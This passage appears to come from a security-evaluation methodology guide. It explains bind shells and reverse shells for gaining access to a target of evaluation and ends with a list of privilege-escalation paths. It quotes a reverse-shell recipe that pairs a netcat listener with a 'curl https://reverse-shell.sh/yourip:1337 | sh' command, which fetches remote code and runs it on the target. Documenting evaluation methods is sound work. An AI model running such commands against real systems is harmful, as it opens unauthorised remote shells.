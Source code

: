On a local network, the attacker may typically try to open a *bind shell*, i.e. run a shell on the TOE, connect it to an open port, then connect to this port from a machine controlled by the attacker. 

However, this does not scale well on a remote setting: if the TOE is behind a firewall, it may drop the connection to this port. If there is NAT, the IP of the TOE will not be easily reachable in practice, etc. This is why on a remote setting, the attacker may instead want to run a *reverse shell*, i.e. run a command that will actively connect to the attacker machine, typically through a popular port that will not be filtered by the firewall.

As a general rule it is just as complicated to get a bind shell than a reverse shell so our method will only focus on getting a reverse shell, which works in all cases. 

The other aspect to this question is that "getting a shell" means being able to type commands on the TOE and getting outputs back, *as you would on a terminal*. In practice, it means 
 - *not only* executing a shell, 
 - *but also* executing a TTY that gives you proper I/O to the shell you execute


### Get a reverse shell
#### From command execution
As we are not redteaming here, we'll use a simple and non stealthy method, using https://reverse-shell.sh/ (reverse shell as a service). The manual is displayed on the homepage and is pretty straightforward:
````
# Reverse Shell as a Service
# https://github.com/lukechilds/reverse-shell
#
# 1. On your machine:
#      nc -l 1337
#
# 2. On the target machine:
#      curl https://reverse-shell.sh/yourip:1337 | sh
#
# 3. Don't be a dick
````
Notes:
 - This is, provided you have curl
 - you can also consider replacing sh by any shell is actually on the TOE

[TODO]: this has been included as a quick fix: add other, better reverse shell methods!

#### From arbitrary code execution
[TODO]
### Get a TTY
[TODO]


# From a shell
Let us now assume you have (or have already obtained) obtained a reverse shell and a TTY. Many possible exploitation paths are possible, but we will structure them as follows:
 - Low-hanging fruits (obvious config errors)
 - exploitation of available resources
 - exploitation of scripts and command calls
 - exploitation of dynamic dependencies
 - process injection
 - (other)

